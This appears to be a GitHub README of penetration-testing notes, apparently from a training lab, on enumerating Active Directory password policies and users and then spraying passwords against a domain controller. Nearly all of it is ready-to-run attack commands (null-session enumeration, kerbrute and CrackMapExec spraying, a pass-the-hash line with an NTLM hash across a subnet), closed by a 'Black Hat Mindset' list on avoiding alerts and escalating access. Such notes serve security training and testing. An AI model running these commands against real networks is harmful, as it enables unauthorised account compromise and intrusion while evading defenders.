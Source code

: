 # Active Directory Password Spraying and Password Policies

This README focuses on enumerating AD password policies to understand lockout thresholds and performing password spraying attacks to guess credentials without triggering account lockouts.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Enumerating Password Policies](#enumerating-password-policies)
- [Enumerating Users](#enumerating-users)
- [Performing Password Spraying](#performing-password-spraying)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

Password spraying involves testing a single password (e.g., `Welcome1`) against many user accounts to avoid lockouts, while password policy enumeration reveals constraints like minimum length or lockout thresholds. This guide uses CrackMapExec, rpcclient, enum4linux, ldapsearch, PowerView, kerbrute, and DomainPasswordSpray to enumerate policies and spray passwords in an AD environment.

## Setup and Prerequisites

### Environment Requirements
- Linux host for CrackMapExec, rpcclient, enum4linux, ldapsearch, kerbrute, and windapsearch
- Windows host for PowerView and DomainPasswordSpray

### Tool Installation
- **CrackMapExec**: Install on Linux (e.g., `pip install crackmapexec`)
- **rpcclient**: Install on Linux (e.g., part of samba-common-bin, `apt install samba-common-bin`)
- **enum4linux**: Install on Linux (e.g., `apt install enum4linux`)
- **enum4linux-ng**: Install on Linux (e.g., `pip install enum4linux-ng`)
- **ldapsearch**: Install on Linux (e.g., part of ldap-utils, `apt install ldap-utils`)
- **kerbrute**: Download the binary on Linux (e.g., from its GitHub repo) and place in your working directory
- **windapsearch**: Download windapsearch.py on Linux (e.g., from its GitHub repo)
- **PowerView**: Load into memory on Windows
- **DomainPasswordSpray**: Download DomainPasswordSpray.ps1 on Windows and place in your working directory
- **PowerShell**: Run with appropriate privileges on Windows (right-click > "Run as Administrator")

### Additional Requirements
- Network Access: Ensure connectivity to the target domain controller or host (e.g., 172.16.5.5)
- User List: Prepare a file (e.g., `valid_users.txt`) with usernames for spraying

## Enumerating Password Policies

Understand the domain's password policies to craft a safe spraying strategy.

```bash
# Using CrackMapExec with valid credentials
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol

# Establishing SMB NULL session
rpcclient -U "" -N 172.16.5.5

# Using rpcclient to enumerate policy
rpcclient $> querydominfo

# Using enum4linux
enum4linux -P 172.16.5.5

# Using enum4linux-ng
enum4linux-ng -P 172.16.5.5 -oA ilfreight

# Using ldapsearch
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength

# Windows commands
net accounts

# PowerView commands
Import-Module .\PowerView.ps1
Get-DomainPolicy
```

## Enumerating Users

Gather a list of users to target with password spraying.

```bash
# Generate username combinations
#!/bin/bash
for x in {{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}; do
    echo $x
done

# Using enum4linux
enum4linux -U 172.16.5.5 | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"

# Using rpcclient
rpcclient -U "" -N 172.16.5.5
rpcclient $> enumdomusers

# Using CrackMapExec
crackmapexec smb 172.16.5.5 --users

# Using ldapsearch
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "

# Using windapsearch
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```

## Performing Password Spraying

Test a common password against the user list without triggering lockouts.

```bash
# Using rpcclient
for u in $(cat valid_users.txt); do
    rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority
done

# Using kerbrute
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1

# Using CrackMapExec
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

# Using DomainPasswordSpray
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

## Black Hat Mindset

- **Understand Policies**: Analyze lockout thresholds to spray passwords safely without locking accounts
- **Target Common Passwords**: Use seasonal or default passwords (e.g., `Welcome1`, `Password123`) likely to succeed
- **Minimize Noise**: Use `--local-auth` or tools like kerbrute to avoid triggering security alerts
- **Expand Access**: Use cracked credentials to enumerate further or escalate privileges

## Resources

- [CrackMapExec Guide](https://github.com/byt3bl33d3r/CrackMapExec/wiki)
- [enum4linux Documentation](https://labs.portcullis.co.uk/tools/enum4linux/)
- [kerbrute GitHub](https://github.com/ropnop/kerbrute)
- [windapsearch GitHub](https://github.com/ropnop/windapsearch)
- [DomainPasswordSpray GitHub](https://github.com/dafthack/DomainPasswordSpray)
- [Password Spraying Techniques](https://attack.mitre.org/techniques/T1110/003/)


